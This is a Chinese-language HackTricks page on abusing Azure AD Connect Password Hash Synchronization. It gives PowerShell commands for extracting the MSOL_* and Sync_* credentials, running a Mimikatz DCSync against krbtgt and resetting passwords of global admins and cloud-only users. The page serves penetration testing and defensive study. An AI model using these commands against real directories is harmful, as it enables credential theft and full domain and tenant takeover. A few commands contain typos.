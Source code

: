 # Az - PHS - 密码哈希同步

<details>

<summary><strong>从零到英雄学习AWS黑客攻击</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks** 中看到您的**公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 基本信息

**密码哈希同步**是用来实现混合身份验证的登录方法之一。**Azure AD Connect** 将用户密码的哈希的哈希从本地Active Directory实例同步到基于云的Azure AD实例。

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

这是公司用来同步本地AD与Azure AD的**最常用方法**。

所有**用户**和**密码哈希的哈希**都从本地同步到Azure AD。然而，**明文密码**或**原始** **哈希**不会发送到Azure AD。\
此外，**内置**安全组（如域管理员等）**不会同步**到Azure AD。

**哈希同步**每**2分钟**发生一次。然而，默认情况下，**密码过期**和**账户** **过期**在Azure AD中**不会同步**。所以，一个**本地密码过期**（未更改）的用户可以继续使用旧密码**访问Azure资源**。

当本地用户想要访问Azure资源时，**认证发生在Azure AD上**。

**PHS**对于像**身份保护**和AAD域服务等功能是必需的。

## 转移

配置PHS时，一些**特权账户**会自动**创建**：

* 账户 **`MSOL_<installationID>`** 会自动在本地AD中创建。该账户被赋予**目录同步账户**角色（参见[文档](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)），这意味着它在本地AD中拥有**复制（DCSync）权限**。
* 在Azure AD中创建了一个账户 **`Sync_<on-prem ADConnect Server名称>_installationID`**。该账户可以**重置任何用户**（已同步或仅限云）在Azure AD中的密码。

这两个特权账户的密码**存储在SQL服务器**上，该服务器位于**Azure AD Connect安装的服务器**上。管理员可以提取这些特权用户的明文密码。\
数据库位于 `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`。

可以从其中一个表中提取配置，其中一个是加密的：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**加密配置**使用**DPAPI**加密，它包含本地AD中的**`MSOL_*`** 用户的**密码**和AzureAD中的**Sync\_\*** 的密码。因此，危及这些信息可以提升权限到AD和AzureAD。

您可以在[这个演讲中找到这些凭据如何存储和解密的完整概述](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### 查找 **Azure AD connect服务器**

如果**安装Azure AD connect的服务器**加入了域（文档中推荐的），可以通过以下方式找到它：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### 滥用 MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
您还可以使用 [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) 来获取这些凭据。
{% endhint %}

### 滥用 Sync\_\*

通过攻破 **`Sync_*`** 账户，可以**重置**任何用户（包括全局管理员）的密码
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
它也可以**仅修改云用户的密码**（即使这是意料之外的）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
也可以转储此用户的密码。

{% hint style="danger" %}
另一个选项是**为服务主体分配特权权限**，**同步**用户有权限这样做，然后**访问该服务主体**作为提权的一种方式。
{% endhint %}

### 无缝 SSO

可以将无缝 SSO 与 PHS 一起使用，这对其他滥用行为是脆弱的。请在以下位置检查：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习 AWS 黑客攻击！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 HackTricks 的 PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs**](https://opensea.io/collection/the-peass-family) 收藏
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>
